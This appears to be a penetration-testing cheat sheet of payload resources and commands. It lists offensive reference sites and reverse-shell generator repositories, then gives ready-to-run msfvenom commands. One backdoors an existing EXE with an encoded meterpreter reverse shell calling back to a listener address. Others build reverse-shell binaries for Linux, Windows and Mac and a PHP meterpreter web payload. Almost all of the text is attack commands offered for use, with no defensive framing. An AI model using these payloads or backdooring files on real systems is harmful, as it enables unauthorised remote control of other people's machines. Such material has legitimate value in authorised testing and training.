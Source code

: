 # PAYLOADS
- http://lolbas-project.github.io
- http://loldrivers.io
- http://gtfobins.github.io
- http://lots-project.com
- http://filesec.io
- http://malapi.io
- http://hijacklibs.net
- http://wadcoms.github.io
- http://persistence-info.github.io
- http://unprotect.it

# Payload Generators

  	Reverse Shell Generator — https://github.com/cwinfosec/revshellgen
   	Windows Reverse Shell Generator — https://github.com/thosearetheguise/rev
  	MSFVenom Payload Creator — https://github.com/g0tmi1k/msfpc

# PHP Reverse Shells

   	Windows PHP Reverse Shell — https://github.com/Dhayalanb/windows-php-reverse-shell
    	PenTestMonkey Unix PHP Reverse Shell — http://pentestmonkey.net/tools/web-shells/php-reverse-shell

# Backdooring EXE Files

	msfvenom -a x86 -x <[FILE]> -k -p windows/meterpreter/reverse_tcp lhost=10.11.0.88 lport=443 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o <[FILE_NAME]>

# Binaries payloads

<b>Linux:</b>
	
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f elf > <[FILE_NAME.elf]>

<b>Windows:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f exe > <[FILE_NAME.exe]>

<b>Mac</b>
	
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f macho > <[FILE_NAME.macho]>

# Web payloads

<b>PHP:</b>

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.php]>
	cat <[FILE_NAME.php]> | pbcopy && echo '<?php ' | tr -d '\n' > <[FILE_NAME.php]> && pbpaste >> <[FILE_NAME.php]>
